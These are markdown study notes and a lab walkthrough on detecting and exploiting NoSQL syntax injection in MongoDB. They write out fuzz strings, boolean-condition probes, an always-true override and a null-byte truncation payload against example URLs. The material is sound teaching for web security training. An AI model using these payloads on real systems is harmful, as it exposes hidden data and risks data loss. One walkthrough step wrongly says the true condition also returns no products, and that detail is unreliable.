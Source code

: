 ## NoSQL syntax injection

   - To find NoSQL injection vulnerabilities, try sending inputs with unusual characters or fuzz strings to the application. If it doesn't handle them properly, it might reveal a security issue, like a database error or unexpected behavior.
   - If you know the API language of the target database, use special characters and fuzz strings that are relevant to that language. Otherwise, use a variety of fuzz strings to target multiple API languages.

### Detecting syntax injection in MongoDB

  Consider a shopping application that displays products in different categories.
  
**When the user selects the "Fizzy drinks" category, their browser requests the following URL:**
```js
https://insecure-website.com/product/lookup?category=fizzy  
```

**This causes the application to send a JSON query to retrieve relevant products from the `product` collection in the MongoDB database:**
```js
this.category == 'fizzy'   
```

**To test whether the input may be vulnerable, submit a fuzz string in the value of the `category` parameter. An example string for MongoDB is:**
```js
'"`{ 
;$Foo} 
$Foo \xYZ
```

**Use this fuzz string to construct the following attack:**
```js
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00   
```
If this causes a change from the original response, this may indicate that user input isn't filtered or sanitized correctly.

#### Note

   - NoSQL injection vulnerabilities can occur in a variety of contexts, and you need to adapt your fuzz strings accordingly. Otherwise, you may simply trigger validation errors that mean the application never executes your query.
   - In this example, we're injecting the fuzz string via the URL, so the string is URL-encoded. In some applications, you may need to inject your payload via a JSON property instead. In this case, this payload would become ``'\"`{\r;$Foo}\n$Foo \\xYZ\u0000``.

#### Determining which characters are processed

**To determine which characters are interpreted as syntax by the application, you can inject individual characters. For example, you could submit `'`, which results in the following MongoDB query:**
```sql
this.category == '''
```
  - If this causes a change from the original response, this may indicate that the `'` character has broken the query syntax and caused a syntax error.

**You can confirm this by submitting a valid query string in the input, for example by escaping the quote:**
```sql
this.category == '\''
```
   - If this doesn't cause a syntax error, this may mean that the application is vulnerable to an injection attack.

#### Confirming conditional behavior

   After detecting a vulnerability, the next step is to determine whether you can influence boolean conditions using NoSQL syntax. 
   
**To test boolean conditions, send two requests, one with a false condition and one with a true condition. For example you could use the conditional statements `' && 0 && 'x` and `' && 1 && 'x` as follows:**
```js
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
```

```js
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```
If the application behaves differently, this suggests that the false condition impacts the query logic, but the true condition doesn't. This indicates that injecting this style of syntax impacts a server-side query.

#### Overriding existing conditions

**Now that you have identified that you can influence boolean conditions, you can attempt to override existing conditions to exploit the vulnerability. For example, you can inject a JavaScript condition that always evaluates to true, such as `'||1||'`**
```js
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%31%7c%7c%27   
```

**This results in the following MongoDB query:**
```js
this.category == 'fizzy'||'1'=='1'
```
   - As the injected condition is always true, the modified query returns all items. This enables you to view all the products in any category, including hidden or unknown categories.

#### Warning
   Take care when injecting a condition that always evaluates to true into a NoSQL query. Although this may be harmless in the initial context you're injecting into, it's common for applications to use data from a single request in multiple different queries. If an application uses it when updating or deleting data, for example, this can result in accidental data loss.

You could also add a null character after the category value. MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored. 

For example, the query may have an additional `this.released` restriction:
```js
this.category == 'fizzy' && this.released == 1
```
The restriction `this.released == 1` is used to only show products that are released. For unreleased products, presumably `this.released == 0`.

In this case, an attacker could construct an attack as follows:
```js
https://insecure-website.com/product/lookup?category=fizzy'%00
```

This results in the following NoSQL query:
```js
this.category == 'fizzy'\u0000' && this.released == 1
```
If MongoDB ignores all characters after the null character, this removes the requirement for the released field to be set to 1. As a result, all products in the `fizzy` category are displayed, including unreleased products.




## Steps to solve lab - 
### Title - Detecting NoSQL injection

**Desc** - The product category filter for this lab is powered by a MongoDB NoSQL database. It is vulnerable to [NoSQL injection](https://portswigger.net/web-security/nosql-injection). To solve the lab, perform a NoSQL injection attack that causes the application to display unreleased products.

1. Test each end-point of application for the possibility of NoSQL injection and got that end-point.
![[nosql2.png]]

2. This causes the application to send a JSON query to retrieve relevant products from the `product` collection in the MongoDB database:
```js
this.category=Gifts
```

3. In Repeater, submit a `'` character in the category parameter. Notice that this causes a JavaScript syntax error. This may indicate that the user input was not filtered or sanitized correctly.
![[nosql3.png]]

4. Submit a valid JavaScript payload in the value of the category query parameter. You could use the following payload:
```js
Gifts'+'
```

![[nosql4.png]]

Make sure to URL-encode the payload by highlighting it and using the `Ctrl-U` hotkey. Notice that it doesn't cause a syntax error. This indicates that a form of server-side injection may be occurring.

5. Identify whether you can inject boolean conditions to change the response:
   
   1. Insert a false condition in the category parameter. For example:
```js
Gifts' && 0 && 'x	
```

![[nosql5.png]]

Make sure to URL-encode the payload. Notice that no products are retrieved.
![[nosql6.png]]

   2. Insert a true condition in the category parameter. For example:
```js
Gifts' && 1 && 'x
```

![[nosql7.png]]

Make sure to URL-encode the payload. Notice that no products are retrieved.
![[nosql8.png]]

6. Submit a boolean condition that always evaluates to true in the category parameter. For example:
```js
Gifts'||1||'
```

![[nosql9.png]]

![[nosql10.png]]

